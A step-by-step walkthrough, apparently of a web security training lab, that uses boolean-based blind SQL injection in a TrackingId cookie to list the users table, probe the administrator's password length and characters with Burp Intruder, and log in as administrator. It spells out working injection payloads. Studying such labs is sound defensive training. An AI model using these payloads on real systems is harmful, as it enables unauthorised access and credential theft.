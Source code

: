 ## Lab Procedure:

1. **Accessing the Lab:**
    - Visit the front page of the shop and use Burp Suite to intercept and modify the request containing the TrackingId cookie. Let's say the original value of the cookie is TrackingId=<id>.
2. **Exploiting the Blind SQL Injection Vulnerability:**
    - Modify the TrackingId cookie, changing it to:
        
        ```
        TrackingId=<id>' AND '1'='1
        ```
        
    - Verify that the "Welcome back" message appears in the response.
    - Change the TrackingId cookie to:
        
        ```
        TrackingId=<id>' AND '1'='2
        ```
        
    - Verify that the "Welcome back" message does not appear in the response.
    - Change the TrackingId cookie to:
        
        ```
        TrackingId=<id>' AND (SELECT 'a' FROM users LIMIT 1)='a
        ```
        
    - Verify that the condition is true, confirming the existence of the table users.
    - Change the TrackingId cookie to:
        
        ```
        TrackingId=<id>' AND (SELECT 'a' FROM users WHERE username='administrator')='a
        ```
        
    - Verify that the condition is true, confirming the existence of the user administrator.
3. **Determining the Password Length:**
    - Change the TrackingId cookie to:
        
        ```
        TrackingId=<id>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
        ```
        
    - Verify that the condition is true, confirming that the password is greater than 1 character in length.
    - Send a series of follow-up values to test different password lengths using Burp Intruder.
4. **Determining the Password Characters:**
    - Use Burp Intruder to send suitable payloads to test the character at each position of the password.
    - Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
5. **Logging in as Administrator:**
    - Once the password characters are determined, log in as the administrator user using the obtained password.

---
